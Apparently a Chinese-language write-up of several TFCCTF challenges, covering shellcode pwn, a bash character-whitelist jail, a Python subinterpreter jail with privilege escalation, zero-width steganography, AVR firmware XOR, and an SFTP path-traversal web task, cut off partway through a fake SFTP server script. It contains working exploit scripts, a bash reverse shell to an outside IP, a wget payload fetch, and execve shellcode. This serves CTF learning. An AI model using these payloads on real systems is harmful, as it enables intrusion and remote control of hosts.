1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 from pwn import * s = lambda x : io.send(x) sa = lambda x,y : io.sendafter(x,y) sl = lambda x : io.sendline(x) sla = lambda x,y : io.sendlineafter(x,y) r = lambda x : io.recv(x) ru = lambda x : io.recvuntil(x) rl = lambda : io.recvline() itr = lambda : io.interactive() uu32 = lambda x : u32(x.ljust(4 ,b'\x00' )) uu64 = lambda x : u64(x.ljust(8 ,b'\x00' )) ls = lambda x : log.success(x) lss = lambda x : ls('\033[1;31;40m%s -> 0x%x \033[0m' % (x, eval (x))) attack = '1.1.11 123' .replace(' ' ,':' ) context(log_level = 'debug' ) cmd = 'env -i ./qemu ./mucusuki' cmd = 'mucusuki-8b05dc5f3ea795f2.challs.tfcctf.com 1337' io = remote(*cmd.split(' ' ),ssl=True ) print (ru(':' ))sc = '' sc += '7b6c 2214 0032 0033 f230 0cea 1083 3078' sc = bytes .fromhex(sc.replace(' ' ,'' )) pay = b'' pay = sc pay = pay.ljust(100 ,b'A' ) pay += p32(0 ) pay += p32(0x3ffffecc ) pay += b'/bin/sh\x00' sl(pay) itr()
构造shellcode，由于不太清楚这个架构的 系统调用号
Elf 里面的 read 系统调用号是 0x54

而 linux 源码里面的是 64 https://github.com/c-sky/linux-4.9.y
>>> 0x54-63
21
相差21

那么 正确的 execve调用号 可能也是 差 21
>>> 221+21
242

1 2 3 4 5 6 7 8 9 10 .section .text .globl _start _start: mov r1,r14 ; /bin /sh subi sp, sp ,0x8 movi r2,0 movi r3,0 movi r0,0xf2 ;242 execve movi r12,0x8310 ; syscall() jmp r12


Misc MINIJAIL 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 FROM ubuntu:20.04 ENV DEBIAN_FRONTEND=noninteractiveRUN apt-get update \ && apt-get install -y --no-install-recommends bash socat \ && rm -rf /var/lib/apt/lists/* WORKDIR /app COPY yo_mama . COPY flag.txt /tmp/flag.txt RUN random_file=$(mktemp /flag.XXXXXX) && mv /tmp/flag.txt "$random_file " RUN chmod +x yo_mama ENTRYPOINT ["socat" , "TCP-LISTEN:4444,reuseaddr,fork" , "EXEC:./yo_mama yooooooo_mama_test,pty,stderr" ]
先看到Dockerfile里面有个奇怪的启动项，看yo_mama这个程序
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 #!/bin/bash goog='^[$>_=:!(){}]+$' while true ; do echo -n "caca$ " stty -echo read -r mine stty echo echo if [[ $mine =~ $goog ]]; then eval "$mine " else echo '[!] Error: forbidden characters detected' printf '\n' fi done
看到白名单，很有php无字母参数RCE那个味道，只要满足就eval执行，最重要的就是0和1，再切片就可以了
取 $1 和 $_：
1 2 3 _=$((!_____)) __=${!_} ___=$_
__ 应该是 yooooooo_mama_test，
现在开始每次左移一个字符 ，直到你看到打印出来的串以 s开头 为止（也就是变成 s 后面一堆字母）。左移一格的命令是：
左移一次就再执行一次上面的“打印”命令：
重复“左移 → 打印 → 左移 → 打印”，直到打印出来的第一字符是 s（大概要按很多次，不用数，看到开头是 s 就行）。把这个首字符 （也就是 s）单独取出来存到变量里：
1 ____=${__:$((________)):$((!_____))}
处理 ___（它现在是 echo），左移两次得到以 h 开头：
1 2 ___=${___:$((!_____))} ___=${___:$((!_____))}
现在是ho，取出这个 h：
1 2 3 _____=${___:$((________)):$((!_____))} ______=${____} ${_____} $______
其实$_____就已经是h，但是为了后面不重复键，所以移动到了$______，再构造s，最初的yooooooo_mama_test也就是$1的第十六位为s，通过爆破偏移PID来获得16从而构造出s，但是这样子PID是有局限性的，所以写脚本要限制一下，最终exp如下
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 from pwn import *context.log_level = "debug" targets = [16 <<i for i in range (5 )] hsteps = [ "_=$((!_____))" , "__=${!_}" , "___=$_" , "${___}$($_)${__}" , "__=${__:$((!_____))}" , "${___}$($_)${__}" , "____=${__:$((________)):$((!_____))}" , "___=${___:$((!_____))}" , "___=${___:$((!_____))}" , "_____=${___:$((________)):$((!_____))}" , "______=${____}${_____}" , "$______" ] ssteps1 = [ "__=$(())" , "__=$((!$__))" , "____=$(($$))" ] ssteps2 = [ "_____=${!__:____:__}" , "$_____" , "$_____$______" ] while True : """ ncat --ssl minijail-1845e80796387fe2.challs.tfcctf.com 1337 """ p = remote("minijail-1845e80796387fe2.challs.tfcctf.com" , 1337 , ssl=True ) p.recvuntil(b"caca$" ) p.sendline(b"$(($$))" ) n = p.recvuntil(b"command not found" ) n = n.decode().split(':' )[2 ].strip() n = int (n) if n > max (targets): exit(0 ) elif n in targets: for step in hsteps: p.recvuntil(b"caca$" ) p.sendline(step.encode()) x = targets.index(n) for step in ssteps1: p.recvuntil(b"caca$" ) p.sendline(step.encode()) for i in range (x): p.recvuntil(b"caca$" ) p.sendline(b"____=$(($____>>$__))" ) for step in ssteps2: p.recvuntil(b"caca$" ) p.sendline(step.encode()) p.interactive() exit(0 ) print (f"Number: {n} " ) p.close()
ΠJAIL 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 from concurrent import interpretersimport threadingimport ctypes, pwdimport osos.setgroups([]) os.setgid(pwd.getpwnam("nobody" ).pw_gid) INPUT = None def safe_eval (user_input ): safe_builtins = {} blacklist = ['os' , 'system' , 'subprocess' , 'compile' , 'code' , 'chr' , 'str' , 'bytes' ] if any (b in user_input for b in blacklist): print ("Blacklisted function detected." ) return False if any (ord (c) < 32 or ord (c) > 126 for c in user_input): print ("Invalid characters detected." ) return False success = True try : print ("Result:" , eval (user_input, {"__builtins__" : safe_builtins}, {"__builtins__" : safe_builtins})) except : success = False return success def safe_user_input (): global INPUT libc = ctypes.CDLL(None ) syscall = libc.syscall nobody_uid = pwd.getpwnam("nobody" ).pw_uid SYS_setresuid = 117 syscall(SYS_setresuid, nobody_uid, nobody_uid, nobody_uid) try : user_interpreter = interpreters.create() INPUT = input ("Enter payload: " ) user_interpreter.call(safe_eval, INPUT) user_interpreter.close() except : pass while True : try : t = threading.Thread(target=safe_user_input) t.start() t.join() if INPUT == "exit" : break except : print ("Some error occured" ) break
使用 Python 3.14 的新特性 多重****解释器 （concurrent.interpreters），在沙箱中执行用户输入代码。过了一些关键词，以及builtins被清空，所以很多的内置函数都不能使用，而且还被降权了，类似于ssti可以getshell
1 2 3 4 5 ().__class__.__base__.__subclasses__()[166].__init__.__globals__["popen" ] ().__class__.__base__.__subclasses__()[166].__init__.__globals__["popen" ]("ls / -al" ).read () ().__class__.__base__.__subclasses__()[166].__init__.__globals__["popen" ]("bash -c 'bash -i >& /dev/tcp/156.238.233.93/4444 0>&1'" ).read ()
提权就很有意思了，常见的我们找suid位和进程
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 ().__class__.__base__.__subclasses__()[166].__init__.__globals__["popen" ]("find / -user root -perm -4000 -print 2>/dev/null" ).read () /usr/bin/passwd /usr/bin/newgrp /usr/bin/chfn /usr/bin/mount /usr/bin/gpasswd /usr/bin/umount /usr/bin/chsh /usr/lib/openssh/ssh-keysign ().__class__.__base__.__subclasses__()[166].__init__.__globals__["popen" ]("ps -ef" ).read () Result: UID PID PPID C STIME TTY TIME CMD root 1 0 0 03:38 ? 00:00:00 socat TCP-LISTEN:1337,reuseaddr,fork EXEC:python3 /jail.py root 8 1 0 03:38 ? 00:00:00 socat TCP-LISTEN:1337,reuseaddr,fork EXEC:python3 /jail.py root 9 8 2 03:38 ? 00:00:00 python3 /jail.py nobody 11 9 0 03:38 ? 00:00:00 /bin/sh -c ps -ef nobody 12 11 0 03:38 ? 00:00:00 ps -ef
并没发现什么，由于是在python里面降权，想到同一进程不同线程的权限问题，写个检测脚本
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 #!/usr/bin/env bash set -euo pipefailcyan printf "\033[36m%s\033[0m\n" "$*" ; }yellow printf "\033[33m%s\033[0m\n" "$*" ; }red printf "\033[31m%s\033[0m\n" "$*" ; }bold printf "\033[1m%s\033[0m\n" "$*" ; }pick_pid local arg="${1:-} " local pid="" if [[ -n "$arg " && "$arg " =~ ^[0-9]+$ && -e "/proc/$arg " ]]; then pid="$arg " elif [[ -n "$arg " ]]; then local line line="$(pgrep -af "$arg " | head -n1 || true) " [[ -n "$line " ]] && pid="$(awk '{print $1}' <<<"$line " ) " else local line line="$(pgrep -af 'python3 .*jail\.py' | head -n1 || true) " [[ -n "$line " ]] && pid="$(awk '{print $1}' <<<"$line " ) " fi [[ -z "$pid " ]] && { red "未找到目标进程。请传入 PID 或匹配模式。" ; exit 1; } echo "$pid " } pid="$(pick_pid "${1:-} " ) " [[ -r "/proc/$pid /status" ]] || { red "无权读取 /proc/$pid /status（可能被 hidepid 或权限限制）" ; exit 1; } bold "== 目标进程：PID $pid ==" name=$(awk '/^Name:/{print $2}' /proc/$pid /status) uidline=$(awk '/^Uid:/{print $2,$3,$4,$5}' /proc/$pid /status) gidline=$(awk '/^Gid:/{print $2,$3,$4,$5}' /proc/$pid /status) threads=$(awk '/^Threads:/{print $2}' /proc/$pid /status) echo "Name: $name " echo "Uid (R/E/S/FS): $uidline " echo "Gid (R/E/S/FS): $gidline " echo "Threads: $threads " echo bold "== 线程凭据一览 ==" printf "%-8s %-12s %-12s %-8s %-s\n" "TID" "Uid(R/E/S)" "Gid(R/E/S)" "State" "Comm" declare -A seen_euids=()while IFS= read -r d; do tid="${d##*/} " st="/proc/$pid /task/$tid /status" [[ -r "$st " ]] || continue read ruid euid suid fsuid < <(awk '/^Uid:/{print $2,$3,$4,$5}' "$st " ) read rgid egid sgid fsgid < <(awk '/^Gid:/{print $2,$3,$4,$5}' "$st " ) state=$(awk -F'\t' '/^State:/{print $2}' "$st " ) comm =$(awk -F'\t' '/^Name:/{print $2}' "$st " ) printf "%-8s %-12s %-12s %-8s %-s\n" "$tid " "$ruid /$euid /$suid " "$rgid /$egid /$sgid " "$state " "$comm " seen_euids["$euid " ]=1 done < <(ls -1 /proc/$pid /task)echo if (( ${#seen_euids[@]} > 1 )); then red "⚠ 检测到不同的 EUID 存在于同一进程的不同线程中（线程级降权/不一致）——此为题目核心风险点。" else yellow "未观察到 EUID 差异。但注意：竞态窗口仍可能瞬时存在，单次快照不代表绝对安全。" fi
靶机出网，传上去
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 wget http://156.238.233.93:9999/1.sh nobody@b46f2ce4e8f7:/tmp$ pgrep -af 'python3 .*jail\.py' pgrep -af 'python3 .*jail\.py' 1 socat TCP-LISTEN:1337,reuseaddr,fork EXEC:python3 /jail.py 521 socat TCP-LISTEN:1337,reuseaddr,fork EXEC:python3 /jail.py 522 python3 /jail.py nobody@b46f2ce4e8f7:/tmp$ ./1.sh 522 ./1.sh 522 == 目标进程：PID 522 == Name: python3 Uid (R/E/S/FS): 0 0 0 0 Gid (R/E/S/FS): 65534 65534 65534 65534 Threads: 2 == 线程凭据一览 == TID Uid(R/E/S) Gid(R/E/S) State Comm 522 0/0/0 65534/65534/65534 S (sleeping) python3 523 65534/65534/65534 65534/65534/65534 S (sleeping) Thread-1 (safe_
同一进程不同进程用shellcode打 https://ewontfix.com/17/#:~:text=Now
1 ().__class__.__base__.__subclasses__()[166].__init__.__globals__['__builtins__' ]['exec' ]("ctypes=__import__('ctypes');m=__import__('o'+'s');libc=ctypes.CDLL(None);PROT_READ,PROT_WRITE,PROT_EXEC=1,2,4;MAP_PRIVATE,MAP_ANONYMOUS=2,32;SIGUSR1=10;SYS_TGKILL=234;size=0x1000;mm=libc.mmap;mm.restype=ctypes.c_void_p;addr=mm(0,size,PROT_READ|PROT_WRITE|PROT_EXEC,MAP_PRIVATE|MAP_ANONYMOUS,-1,0);sc=b'\\x48\\x31\\xd2\\x48\\xbb\\x2f\\x62\\x69\\x6e\\x2f\\x73\\x68\\x00\\x53\\x48\\x89\\xe7\\x50\\x57\\x48\\x89\\xe6\\xb0\\x3b\\x0f\\x05';ctypes.memmove(addr,sc,len(sc));CB=ctypes.CFUNCTYPE(None,ctypes.c_int);handler=ctypes.cast(addr,CB);libc.signal.argtypes=(ctypes.c_int,CB);libc.signal.restype=CB;libc.signal(SIGUSR1,handler);pid=m.getpid();libc.syscall(SYS_TGKILL,pid,pid,SIGUSR1)" ,().__class__.__base__.__subclasses__()[166].__init__.__globals__['__builtins__' ])
DISCORD SHENANIGANS V5 根据题目描述，确定在dc的官方频道的announcement处藏了东西
所以直接将当时有的一些记录复制到notepad，发现其中一条信息后有奇怪的内容

推测应该是零宽字节隐写，这里丢给厨子可以看到只有两种零宽字节，用在线工具处理不出来
gpt搞个脚本解析一下即可
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 hex_string = "20 e2 80 8b e2 80 8c e2 80 8b e2 80 8c e2 80 8b e2 80 8c e2 80 8b e2 80 8b e2 80 8b e2 80 8c e2 80 8b e2 80 8b e2 80 8b e2 80 8c e2 80 8c e2 80 8b e2 80 8b e2 80 8c e2 80 8b e2 80 8b e2 80 8b e2 80 8b e2 80 8c e2 80 8c e2 80 8b e2 80 8c e2 80 8b e2 80 8b e2 80 8b e2 80 8b e2 80 8c e2 80 8c e2 80 8b e2 80 8c e2 80 8b e2 80 8c e2 80 8b e2 80 8c e2 80 8b e2 80 8b e2 80 8b e2 80 8c e2 80 8b e2 80 8b e2 80 8b e2 80 8c e2 80 8c e2 80 8b e2 80 8b e2 80 8c e2 80 8c e2 80 8c e2 80 8c e2 80 8b e2 80 8c e2 80 8c e2 80 8b e2 80 8c e2 80 8c e2 80 8b e2 80 8c e2 80 8b e2 80 8b e2 80 8b e2 80 8b e2 80 8c e2 80 8c e2 80 8b e2 80 8c e2 80 8b e2 80 8b e2 80 8c e2 80 8b e2 80 8c e2 80 8c e2 80 8b e2 80 8b e2 80 8c e2 80 8b e2 80 8b e2 80 8b e2 80 8c e2 80 8c e2 80 8b e2 80 8b e2 80 8c e2 80 8b e2 80 8b e2 80 8b e2 80 8c e2 80 8c e2 80 8b e2 80 8b e2 80 8c e2 80 8b e2 80 8c e2 80 8b e2 80 8c e2 80 8c e2 80 8b e2 80 8c e2 80 8c e2 80 8c e2 80 8b e2 80 8b e2 80 8c e2 80 8b e2 80 8c e2 80 8c e2 80 8c e2 80 8c e2 80 8c e2 80 8b e2 80 8c e2 80 8c e2 80 8c e2 80 8b e2 80 8b e2 80 8c e2 80 8c e2 80 8b e2 80 8c e2 80 8c e2 80 8b e2 80 8c e2 80 8b e2 80 8b e2 80 8b e2 80 8b e2 80 8c e2 80 8c e2 80 8b e2 80 8b e2 80 8c e2 80 8b e2 80 8c e2 80 8b e2 80 8c e2 80 8c e2 80 8b e2 80 8c e2 80 8c e2 80 8c e2 80 8b e2 80 8b e2 80 8c e2 80 8c e2 80 8b e2 80 8b e2 80 8b e2 80 8b e2 80 8c e2 80 8b e2 80 8c e2 80 8c e2 80 8b e2 80 8c e2 80 8c e2 80 8c e2 80 8b e2 80 8b e2 80 8c e2 80 8c e2 80 8b e2 80 8c e2 80 8b e2 80 8b e2 80 8c e2 80 8b e2 80 8c e2 80 8c e2 80 8b e2 80 8b e2 80 8c e2 80 8c e2 80 8c e2 80 8b e2 80 8c e2 80 8c e2 80 8b e2 80 8b e2 80 8b e2 80 8b e2 80 8c e2 80 8b e2 80 8c e2 80 8c e2 80 8b e2 80 8c e2 80 8c e2 80 8c e2 80 8b e2 80 8b e2 80 8c e2 80 8c e2 80 8c e2 80 8b e2 80 8b e2 80 8c e2 80 8c e2 80 8b e2 80 8c e2 80 8c e2 80 8c e2 80 8c e2 80 8c e2 80 8b e2 80 8c" bytes_data = bytes (int (b, 16 ) for b in hex_string.split()) text = bytes_data.decode('utf-8' ) mapping = {'\u200B' : '0' , '\u200C' : '1' } binary_str = '' .join(mapping.get(c, '' ) for c in text) chars = [chr (int (binary_str[i:i+8 ], 2 )) for i in range (0 , len (binary_str), 8 )] result = '' .join(chars) print ("提取结果:" , result)
BLACKBOX 固件分析，丢ida，发现是avr架构
ida没办法直接解析反汇编成伪代码
但由于这固件内容不多，可以直接分析有的内容，发现sub_BE是核心代码
ai分析发现是进行了简单的异或加密，异或0xa5，但是不确定密文的位置在哪里，直接把整个elf文件作为输入丢给赛博厨子，然后得到flag

CR00NEY 题目附件代码看起来比较多, 但是关键逻辑就几点
/app/api/admin/route.js 是获取flag的地方 对应路由/api/admin
注册登录
从给定的sftp服务器下载文件到本地, 并返回文件中的内容. 题目默认在本地开了一个sftp, 因此可以下载文件, 包括sqlite的.db文件并查看内容
获取flag的地方
1 2 3 4 5 6 if (!user || !user.admin ) { return NextResponse .json ({ error : 'Forbidden' }, { status : 403 }); } const flag = process.env .ADMIN_FLAG || 'No flag set' ; return NextResponse .json ({ flag });
需要admin字段鉴权以确定是都能拿到flag, 去看users表结构

再看注册逻辑
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 export async function POST (request ) { const { username, password } = await request.json (); if (!username || !password) { return NextResponse .json ( { error : 'Missing username or password' }, { status : 400 } ); } await initDb (); const db = await openDb (); const hashedPassword = await bcrypt.hash (password, 10 ); try { await db.run ( 'INSERT INTO users (username, password) VALUES (?, ?)' , username, hashedPassword ); return NextResponse .json ({ success : true }); } catch (e) { return NextResponse .json ( { error : 'User already exists' }, { status : 409 } ); } }
没有指定admin字段值. 也就是所有注册用户都为非admin,不能读取flag, 并且浏览附件发现默认并没有初始化一个admin账户. 所以就算下载到users.db也没有admin账户
思路是通过题目中的sftp文件下载, 让他去我们的恶意服务器上下载users.db并覆盖到原有的users.db, 这样就可以成功越权
客户端关键代码是这样的:
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 export default async function SSH_File_Download (ctx: ssh_ctx ) { const { host, username, filename, keyPath } = ctx; const safeRemoteName = basename (filename); const safeLocalName = filename; if (hasBlockedExtension (safeRemoteName) || hasBlockedExtension (safeLocalName)) { return { ok : false , message : "Refused: writing code files is not allowed." }; } try { await fsp.mkdir ("/app/downloads" , { recursive : true }); } catch (_) {} const localPath = "/app/downloads/" + safeLocalName; const remotePath = "/app/" + safeRemoteName; const sftp = new Client (); try { await sftp.connect ({ host, username, privateKey : fs.readFileSync (keyPath), }); await sftp.fastGet (remotePath, localPath); await sftp.end (); try { await fsp.chmod (localPath, 0o600 ); } catch {} return { ok : true , message : "Successfully downloaded the file" , path : localPath, }; } catch (error : any) { try { await sftp.end (); } catch {} return { ok : false , message : error?.message || "SFTP error" }; } }
可以看到:
1 2 3 const safeRemoteName = basename (filename); const safeLocalName = filename;
客户端在将获取到的文件保存到本地时是可以目录穿越的, 所以就可以绕过后面的:
1 const localPath = "/app/downloads" + "/" +safeLocalName;
将从服务端获取到的文件保存到客户端任意位置
由于进行了私钥验证, 此时就让ai写个服务端, 任何私钥都能通过验证:
fake_server.py如下
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 import osimport socketimport paramikoHOST_KEY = paramiko.RSAKey.generate(2048 ) WORK_DIR = "/app" class AlwaysAllowServer (paramiko.ServerInterface): """允许任何私钥/密码通过认证""" def check_channel_request (self, kind, chanid ): if kind == "session" : return paramiko.OPEN_SUCCEEDED return paramiko.OPEN_FAILED_ADMINISTRATIVELY_PROHIBITED def check_auth_publickey (self, username, key ): return paramiko.AUTH_SUCCESSFUL def check_auth_password (self, username, password ): return paramiko.AUTH_SUCCESSFUL def get_allowed_auths (self, username ): return "publickey,password" class SimpleSFTPHandler (paramiko.SFTPServerInterface): """SFTP 文件操作处理，只允许访问 WORK_DIR 下的文件""" def _to_local (self, path: str ): """ 将客户端传来的相对路径映射到 WORK_DIR 拒绝访问 WORK_DIR 外的文件 """ relative_path = path.lstrip("/\\" ) local_path = os.path.abspath(os.path.join(WORK_DIR, relative_path)) if not local_path.startswith(os.path.abspath(WORK_DIR)): raise paramiko.SFTPNoSuchFile(path) return local_path def list_folder (self, path ): local_path = self ._to_local(path) print (f"[SFTP] list_folder {path} -> 